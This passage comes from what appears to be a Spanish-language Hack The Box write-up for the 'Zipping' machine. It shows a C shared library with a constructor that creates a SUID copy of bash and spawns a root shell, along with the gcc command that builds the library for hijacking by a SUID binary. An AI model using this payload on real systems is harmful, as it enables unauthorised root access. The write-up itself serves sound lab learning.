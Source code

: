 ```c
#include <stdio.h>
#include <stdlib.h>

static void privesc() __attribute__((constructor));

void privesc() {
 system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

El código anterior asigna permisos SUID al binario `/bin/bash`. La función `privesc` está marcada con el atributo `constructor`, lo que significa que se ejecutará automáticamente al cargar el programa en el que se encuentra, es decir, antes de llamar a la función `main()`. El código en la función `privesc` copia el ejecutable `/bin/bash` a `/tmp/bash`, establece el bit de setuid en el nuevo archivo y luego ejecuta `/tmp/bash -p`, logrando así ejecutar una shell como el usuario `root`.

Para crear la libreria compartida, ejecutamos el siguiente código:

```bash
gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC /tmp/libcounter.c
```

Parámetros utilizados:

- `-shared`:                            Indica al compilador que genere una biblioteca compartida en lugar de un ejecutable.
- `-o`:                                 Especifica el nombre del archivo de salida (en este caso, `/home/rektsu/.config/libcounter.so`).
- `/home/rektsu/.config/libcounter.so`: Ruta y nombre del archivo de salida de la biblioteca compartida.
- `-fPIC`:                               Indica que el código generado debe ser independiente de la posición (Position Independent Code), necesario para bibliotecas compartidas.
- `/tmp/libcounter.c`:                   Ruta y nombre del archivo fuente en C que se compilará.

Ejecutamos el binario `/usr/bin/stock`, logrando escalar nuestro privilegios a `root`.

![root](/assets/img/htb/zipping/zipping-49.png){: width="700" height="400" }
_root_

De esta manera, ya podemos leer el flag de `root.txt`.

![root.txt](/assets/img/htb/zipping/zipping-41.png)
_root.txt_

Con esto, concluimos la resolución de la máquina Zipping.

Confío en que los conceptos hayan quedado claros. Si aún persisten dudas después de llegar a este punto, te sugiero considerar la posibilidad de revisitar la máquina para reforzar tu comprensión.

Gracias por tu lectura!

Happy Hacking!
